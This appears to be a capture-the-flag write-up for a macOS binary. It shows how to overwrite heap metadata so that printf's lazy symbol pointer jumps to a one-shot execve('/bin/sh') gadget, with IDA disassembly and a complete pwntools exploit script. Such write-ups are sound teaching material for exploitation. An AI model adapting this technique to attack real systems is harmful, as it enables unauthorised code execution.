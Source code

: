 
First, the example provides the address of the main address and exit, so you only need to think about what to overwrite and how to overwrite it with offset.
I overwrite 'printf' to 'oneshot Gadget' to get shell.
You can find the offset of the printf in `_lazy_symbol_ptr`.
> `_laze_symbol_ptr` is similar to `global offset table(got)`.
```
__la_symbol_ptr:0000000100001028 ; Segment type: Pure data
__la_symbol_ptr:0000000100001028 ; Segment alignment 'qword' can not be represented in assembly
__la_symbol_ptr:0000000100001028 __la_symbol_ptr segment para public 'DATA' use64
__la_symbol_ptr:0000000100001028                 assume cs:__la_symbol_ptr
__la_symbol_ptr:0000000100001028                 ;org 100001028h
__la_symbol_ptr:0000000100001028 ; void (__cdecl __noreturn *exit_ptr)(int)
__la_symbol_ptr:0000000100001028 _exit_ptr       dq offset __imp__exit   ; DATA XREF: _exit↑r
__la_symbol_ptr:0000000100001030 ; void (__cdecl *free_ptr)(void *)
__la_symbol_ptr:0000000100001030 _free_ptr       dq offset __imp__free   ; DATA XREF: _free↑r
__la_symbol_ptr:0000000100001038 ; void *(__cdecl *malloc_ptr)(size_t)
__la_symbol_ptr:0000000100001038 _malloc_ptr     dq offset __imp__malloc ; DATA XREF: _malloc↑r
__la_symbol_ptr:0000000100001040 ; int (*printf_ptr)(const char *, ...)
__la_symbol_ptr:0000000100001040 _printf_ptr     dq offset __imp__printf ; DATA XREF: _printf↑r
__la_symbol_ptr:0000000100001048 ; ssize_t (__cdecl *read_ptr)(int, void *, size_t)
__la_symbol_ptr:0000000100001048 _read_ptr       dq offset __imp__read   ; DATA XREF: _read↑r
__la_symbol_ptr:0000000100001050 ; int (__cdecl *setvbuf_ptr)(FILE *, char *, int, size_t)
__la_symbol_ptr:0000000100001050 _setvbuf_ptr    dq offset __imp__setvbuf
__la_symbol_ptr:0000000100001050                                         ; DATA XREF: _setvbuf↑r
__la_symbol_ptr:0000000100001058 ; ssize_t (__cdecl *write_ptr)(int, const void *, size_t)
__la_symbol_ptr:0000000100001058 _write_ptr      dq offset __imp__write  ; DATA XREF: _write↑r
__la_symbol_ptr:0000000100001058 __la_symbol_ptr ends
__la_symbol_ptr:0000000100001058
```
Oneshot gadget exists in `libsystem_c.dyib`, and it also gets offset.

```
__text:000000000002573B                 lea     rdi, aBinSh     ; "/bin/sh"
__text:0000000000025742                 mov     rsi, r14        ; char **
__text:0000000000025745                 mov     rdx, [rbp+var_450] ; char **
__text:000000000002574C                 call    _execve
```
Metadata must now be set as follows:
```
[Arbitrary Value] [Target Address]
```
In this case, metadata should be overwritten with `[Oneshot address] [printf address]`.
Note that Target Address should use the `printf address << 4` value.
Also, the cookie value must be zero to enter the address of the oneshot gadget.
Based on this, the code is written as follows:
```python
from pwn import *

for i in range(100):
    try:
        r = process('./a.out')
        exit = int(r.recvuntil('\n').split(' : ')[1].strip(),16)
        main = int(r.recvuntil('\n').split(' : ')[1].strip(),16)
        _lazy_printf = main - 0xD80 + 0x1040
        oneshot = exit - 0x5c67c + 0x000000000002573B 

        payload = ''
        payload += p64(oneshot)
        payload += p64(_lazy_printf >> 4)

        print payload.encode('hex')
        r.sendline(payload)
        r.interactive()
    except:
        r.close()
```